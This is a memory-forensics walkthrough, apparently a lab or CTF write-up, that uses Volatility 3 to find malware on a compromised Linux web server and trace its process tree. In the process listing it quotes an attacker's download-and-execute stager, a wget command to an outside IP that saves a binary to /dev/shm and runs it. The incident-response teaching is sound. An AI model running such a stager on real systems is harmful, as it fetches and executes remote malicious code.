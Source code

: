 A great place to start with a compromised system is to review running processes. This may tell us if there's any active malware running. Vol3 have support for this through `linux.psaux`. Note that the first time you run a vol3 command, it will take longer than follow up vol3 commands.

```text
$ vol3 -f hackypaws.mem linux.psaux
```

#### Process Review

There's going to be a lot of processes in the output, we're looking for anything that shouldn't be there on a normal linux system running a web server.

After some digging, this little gem appears! This is what appears to be a shell stager that's downloading a binary and then executing it. We can also see this binary `uf` is running out of `/dev/shm`.

```text
19769	804	sh	/bin/sh -c wget http://137.184.178.106:8000/uf -O /dev/shm/uf;chmod +x /dev/shm/uf;/dev/shm/uf
19772	19769	uf	/dev/shm/uf
```

Let's try to understand what's happening here a bit more, it starts with a wget, but it's outputting the file to `/dev/shm`, why is that?

This path is shared memory in linux that operates as a ramdisk, so anything in there never actually touches disk. From an attacker's perspective, this is a good place to save and launch malware from because it's harder to recover files from this location post exploit.

#### Process Tree

Now that we've found the process, where did this come from? To find this, we can look at the malware's parent process.

An important concept here is that anytime an app is first compromised on a system, the attacker will either be executing as that application within the same app process, or they're going to spawn child processes which is the case here.

After this point, they can escalate access on the system where they're able to spawn processes as root or another user, then in most cases the initial exploit or child processes under the app are not required anymore. So we want to understand where they are in this flow, and we can use process trees to help determine that!

```text
$ vol3 -f hackypaws.mem linux.pstree
```
When reviewing this output, pay attention to the PID (process id), and PPID (parent process id). You should see a process structure that looks like this.

```text
* 656 - main.py
* * 19769 - sh
* * * 19772 - uf
* * * * 19801 - bash
```

Our web app is `main.py`, and under it is `sh` -> `uf` -> `bash`, so this tells us that the attacker is still under the webserver process and hasn't successfully migrated out of this process tree yet.
